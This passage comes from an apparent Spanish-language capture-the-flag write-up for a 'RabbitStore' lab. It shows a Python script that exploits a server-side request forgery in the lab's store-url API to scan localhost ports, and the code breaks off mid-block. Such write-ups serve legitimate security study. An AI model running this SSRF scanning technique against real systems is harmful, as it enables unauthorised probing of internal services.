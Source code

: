 <figure><img src="../.gitbook/assets/RabbitStore/updloas.png" alt=""><figcaption></figcaption></figure>

Utilizamos un `script` para identificar más servicios en otros puertos en `localhost`. Para ello, verificamos si el servicio solicitado nos proporciona un enlace de descarga.

```
import requests

# Base URL and endpoint
base_url = "http://storage.cloudsite.thm/api/store-url"

# Headers
headers = {
    "Cookie": "jwt=REDACTED",
    "Content-Type": "application/json"
}

# Function to make POST request to a specific port
def make_request(port):
    # URL to test
    test_url = f"http://127.0.0.1:{port}"
    data = {"url": test_url}

    try:
        # Make the POST request
        response = requests.post(base_url, headers=headers, json=data)

        # Check if the response contains a non-empty "path"
        if response.status_code == 200:
            json_response = response.json()
            if "path" in json_response and json_response["path"]:
                print(f"Port: {port}, Path: {json_response['path']}")
    except requests.RequestException as e:
        # Handle potential request errors
```